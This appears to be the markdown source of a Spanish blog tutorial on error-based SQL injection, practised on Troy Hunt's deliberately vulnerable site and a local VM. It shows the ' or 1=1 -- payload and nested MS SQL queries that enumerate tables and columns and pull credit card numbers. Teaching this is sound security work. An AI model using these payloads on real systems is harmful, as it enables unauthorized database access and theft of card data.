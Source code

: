```yaml
---
layout: post
title: Ataque SQL Injection por error
category: Hacking
comments: true
description: Es el más comun y el más facil de explotar ya que es la propia aplicacion que nos va diciendo los errores que da la base de datos cuando vamos usando los ataques de sql injection. Con este error es muy facil conseguir cualquier cosa de la base de datos (estructura, tablas, nombres de campos e incluso datos).
tags:
    - injection
    - hacker
    - owasp
---
```


Es el más comun y el más facil de explotar ya que es la propia aplicacion que nos va diciendo los errores que da la base de datos cuando vamos usando los ataques de sql injection. Con este error es muy facil conseguir cualquier cosa de la base de datos (estructura, tablas, nombres de campos e incluso datos).


<figure>
<img alt="que es sql injection" src="/resources/images/que-es-sql-injection/sql-injection.png"/>
<figcaption>
SQL Injection, la vulnerabilidad web más peligrosa según OWASP. 
</figcaption>
</figure>


## Para practicar

Te recomiendo que uses esta pagina web: [hackyourselffirst.troyhunt.com](http://hackyourselffirst.troyhunt.com){:target="_blank"}. Es una pagina vulnerable hecho a posta para poder probar todas las vulnerabilidades web de Owasp, esta creada por el hacker etico [Troy Hunt](https://www.troyhunt.com/){:target="_blank"}. 
Tiene varios cursos de hacking en [Pluralsight](https://app.pluralsight.com/library/){:target="_blank"} te recomiendo que te subscribas a Pluralsight y los hagas.

## Como encontrar encontrar esta vulnerabilidad

En la pagina de hackyourselffirst.troyhunt.com en la pagina de buscar cilindros, y seleccionamos los coches que tienen 8 cilindros, logicamente solo nos saldran los coches con 8 cilindros.

<div class="info alert">
http://hackyourselffirst.troyhunt.com/CarsByCylinders?Cylinders=V8
</div>

Para ver si esta pagina es vulnerable a un ataque sql inject, solo haria falta añadir detras esto: ' or 1=1 --

<div class="info alert">
http://hackyourselffirst.troyhunt.com/CarsByCylinders?Cylinders=V8' or 1=1 --
</div>

y Tachan!! nos aparecen todos los coches,la pagina es vulnerable al ataque sql injection.


## Y que significa *' or 1=1 --*

Estos caracteres que hemos añadido detras tienen su signficado, os lo voy a explicar.

*'* sin esta comilla, lo que haria la web seria buscar todos los coches con '8 or 1=1--' cilindros, al añadirla hemos cerrado lo que esta buscando la aplicacion. La comilla es necesaria cuando la busqueda original es tipo string, como es V8 si fuera un valor numerico, por ejemplo un 8, no haria falta ya que los valores numericos en la query original van sin comillas.

<div class="env-header">SQL CON STRING</div>
{% highlight sql linenos %}

Select id, nombre from coches where marca = 'ferrari' 

{% endhighlight %}

<div class="env-header">SQL CON VALOR NUMERICO</div>
{% highlight sql linenos %}

Select id, nombre from coches where year = 2012 

{% endhighlight %}

*or 1=1* esta funcion logica lo que nos ayuda es que da igual lo que buscase la aplicacion, si era falso o no, ahora sera siempre verdadero, ya que 1=1 es siempre verdadero.

*---* esto en sql es para escribir comentarios, si despues de nuestra injeccion de sql quedase algo en la query de sql, por ejemplo un order by o algo más en la busqueda, daria igual ya que para el servidor sql seria como un comentario y no le haria caso.


## El ataque SQL Injection por error


Tengo una pagina web vulnerable a sql injection en una maquina virtual de mi ordenador, asi que lo primero que hago es probar que la pagina en question es vulnerable a un sql injection.

<figure>
<img alt="web vulnerable a sql injection" src="/resources/images/injection-error/injection-sql-error-1.png"/>
<figcaption>
SQL Injection, la vulnerabilidad web más peligrosa según OWASP. 
</figcaption>
</figure>

<figure>
<img alt="web vulnerable a sql injection" src="/resources/images/injection-error/injection-sql-error-2.png"/>
<figcaption>
Esta web si es vulnerable a sql injection. 
</figcaption>
</figure>

Al ser vulnerable a sql injection, explotamos la vulnerabilidad empezando a sacar todos los nombres de las tablas de la base de datos.

<div class="env-header">SQL Enumeradora 1</div>
{% highlight sql linenos %}

(
    select name from sysobjects where id=
    (
        select top 1 id from
        (
            select top 1 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}


Esta sentencia SQL, son tres sentencias sql anidadas, hacen lo siguiente:

*select top 3 id from sysobjects where xtype=char(85) order by id asc*  selectiona los tres primeros ids que sean tipo tabla de la tabla del systema sysobjects y los ordena por id ascendentemente.

*select top 1 id from ( ) sq order by id desc* selecciona el ultimo de la cola

*select name from sysobjects where id=* da el nombre de la tabla de ese id.

Es decir, podemos recorrer toda la lista de tablas de la base de datos cambiando el valor numerico del Top, ya que ira aumentando la cola, y nosotros siempre cogeremos el ultimo de la cola.

En esta query tanto podemos usar la tabla sysobjects o sys.tables.


<div class="env-header">SQL Enumeradora 2 </div>
{% highlight sql linenos %}

(
    select name from sys.tables where object_id=
    (
        select top 1 object_id from
        (
            select top 1 object_id from sys.tables order by object_id asc
        ) sq order by object_id desc
    )
)

{% endhighlight %}



<figure>
<img alt="web vulnerable a sql injection" src="/resources/images/injection-error/injection-sql-error-3.png"/>
<figcaption>
Extrayendo el nombre de las tablas de la base de datos mediante sql injection. 
</figcaption>
</figure>

<div class="env-header">Aumentamos el valor del top... y otra tabla</div>
{% highlight sql linenos %}

(
    select name from sysobjects where id=
    (
        select top 1 id from
        (
            select top 3 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}

<figure>
<img alt="web vulnerable a sql injection" src="/resources/images/injection-error/injection-sql-error-4.png"/>
<figcaption>
Extrayendo el nombre de las tablas de la base de datos mediante sql injection. Otra tabla más..
</figcaption>
</figure>


Y ahora que tenemos los nombres de las tablas, ahora a por las columnas. En la base de datos hay una tabla llamada CreditCard, o sea tarjetas de credito, y el campo 3 de la tabla se llama... CardNumber!!

__Error de conversión al convertir el valor nvarchar 'CardNumber' al tipo de datos int.__


<div class="env-header">Aumentamos el id del column_id y sacamos las columnas de la tabla.</div>
{% highlight sql linenos %}

(
    select name from sys.columns where column_id = 1 and  object_id=
    (
        select top 1 id from
        (
            select top 3 id from sysobjects where xtype=char(85) order by id asc
        ) sq order by id desc
    )
)

{% endhighlight %}

Ya tenemos la tabla, el campo de la tabla, ahora los valores... y como hasta ahora, cambiando el valor top de la subconsulta tendremos un registro nuevo


<div class="env-header">Y como hasta ahora, aumentamos el el top de la consulta anidada y tenemos más valores....</div>
{% highlight sql linenos %}

(
    select CardNumber from CreditCard where  CreditCardID=
    (
        select top 1 CreditCardID from
        (
            select top 3 CreditCardID from CreditCard order by CreditCardID asc
        ) sq order by CreditCardID desc
    )
)

{% endhighlight %}

<figure>
<img alt="web vulnerable a sql injection" src="/resources/images/injection-error/injection-sql-error-5.png"/>
<figcaption>
Y ahora a sacar todos los numeros de las tarjetas de credito....
</figcaption>
</figure>
















